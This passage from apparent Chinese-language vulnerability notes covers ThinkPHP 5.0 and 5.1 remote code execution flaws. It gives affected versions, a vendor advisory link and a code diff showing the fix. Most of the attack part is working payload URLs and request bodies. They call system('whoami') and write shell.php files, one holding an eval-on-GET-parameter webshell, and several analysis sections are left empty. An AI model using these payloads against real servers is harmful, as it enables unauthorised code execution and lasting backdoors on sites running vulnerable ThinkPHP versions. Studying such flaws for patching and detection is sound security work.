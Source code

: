 - s=dir：application/config.php 中定义PATHINFO变量名为’ s ’。可用s传入需要执行的命令，如s=dir

  ```php
      // PATHINFO变量名 用于兼容模式
      'var_pathinfo'           => 's',
  ```

### 二、5.0.21-5.0.23

影响版本：5.0.21-5.0.23

漏洞概述：

payload：

> POST /public/index.php?s=captcha
>
> _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

代码分析：

### 三、5.0.0-5.0.22、5.1-5.1.30

**影响版本：**5.0-5.0.22、5.1-5.1.30

**漏洞概述：**Thinkphp5.0和5.1中没有对路由中的控制器名进行严格过滤，当存在admin、index模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，导致远程代码执行。

**官方公告：**https://blog.thinkphp.cn/869075

Payload：

> /?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
>
> /?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
>
> /?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
>
> ?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo ^<?php @eval($_GET["code"])?^>>shell.php

invokefunction是什么？

**代码分析：**5.0.22

- Diff 5.0.22和5.0.23代码

  5.0.22#App.php:552

  ```php
  // 获取控制器名
  $controller = strip_tags($result[1] ?: $config['default_controller']);
  $controller = $convert ? strtolower($controller) : $controller;
  ```

  5.0.23#App.php:552-559

  ```php
  // 获取控制器名
  $controller = strip_tags($result[1] ?: $config['default_controller']);
  
  if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
  	throw new HttpException(404, 'controller not exists:' . $controller);
  }
  $controller = $convert ? strtolower($controller) : $controller;
  ```

